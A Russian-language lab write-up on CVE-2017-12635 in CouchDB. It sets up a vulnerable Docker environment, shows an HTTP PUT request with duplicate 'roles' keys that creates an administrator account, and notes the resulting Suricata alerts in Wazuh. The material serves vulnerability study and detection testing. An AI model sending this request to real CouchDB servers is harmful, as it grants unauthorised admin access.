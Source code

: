 # CVE-2017-12635

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2017-12635](https://nvd.nist.gov/vuln/detail/CVE-2017-12635)
* [https://docs.couchdb.org/en/stable/cve/2017-12635.html](https://docs.couchdb.org/en/stable/cve/2017-12635.html)

Из-за различий в парсере JSON CouchDB, основанном на Erlang, и парсере JSON, основанном на JavaScript, возможно предоставление документов \_users с дублирующимися ключами для ролей, используемых для контроля доступа в базе данных, включая роль \_admin, обозначающей административных пользователей.

### Эксплуатация уязвимости

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:5984/_utils/ будет доступна страница авторизации CouchDB

<figure><img src="../../.gitbook/assets/cve-2017-12635(1).png" alt=""><figcaption></figcaption></figure>

Для добавления пользователя можно отправить соответствующий запрос:

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: ваш-ip:5984
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Content-Type: application/json
Content-Length: 92

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "password": "vulhub"
}	
```

Но после его отправки мы получим ответ, что только администратор может выставлять роли пользователям&#x20;

<figure><img src="../../.gitbook/assets/cve-2017-12635(2).png" alt=""><figcaption></figcaption></figure>

Но, если добавить дополнительное пустое поле "roles", то можно обойти ограничение

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: ваш-ip:5984
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Content-Type: application/json
Content-Length: 108

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "roles": [],
  "password": "vulhub"
}
```

<figure><img src="../../.gitbook/assets/cve-2017-12635(3).png" alt=""><figcaption></figcaption></figure>

Был создан пользователь vulhub с паролем vulhub с ролью администратора:

<figure><img src="../../.gitbook/assets/cve-2017-12635(4).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации CouchDB RCE&#x20;

<figure><img src="../../.gitbook/assets/cve-2017-12635(5).png" alt=""><figcaption></figcaption></figure>
